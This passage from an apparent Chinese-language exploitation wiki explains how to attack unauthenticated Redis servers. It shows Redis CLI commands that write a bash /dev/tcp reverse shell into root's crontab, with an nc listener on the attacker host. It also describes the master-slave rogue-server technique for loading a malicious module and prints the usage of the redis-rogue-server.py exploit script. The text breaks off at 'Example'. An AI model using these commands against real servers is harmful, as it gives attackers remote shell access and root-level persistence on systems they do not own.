![img](/assets/PeiQi-Wiki/img/1628515979062-1d027d69-3100-4eb9-9496-43b0b15a7768-20220415143203717.png)

### 定时任务

也可以通过写入定时任务反弹Shell，获取权限

<a-checkbox checked>攻击机监听端口 </a-checkbox></br>

<a-checkbox checked>nc -lvvp 9999</a-checkbox></br>

```php
192.168.0.126:6379> set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.140/9999 0>&1\n\n"
OK
192.168.0.126:6379> config set dir /var/spool/cron
OK
192.168.0.126:6379> config set dbfilename root
OK
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```

![img](/assets/PeiQi-Wiki/img/1628603729549-61622428-de4c-4dbf-abdb-7ceb5c0d6240-20220415143203493.png)

### 主从复制

<a-checkbox checked>如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。</a-checkbox></br>

<a-checkbox checked>为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机</a-checkbox></br>

<a-checkbox checked>其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式</a-checkbox></br>

Redis未授权访问在4.x/5.0.5以前版本，我们可以使用主/从模式加载远程模块，通过动态链接库的方式执行任意命令。



关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```
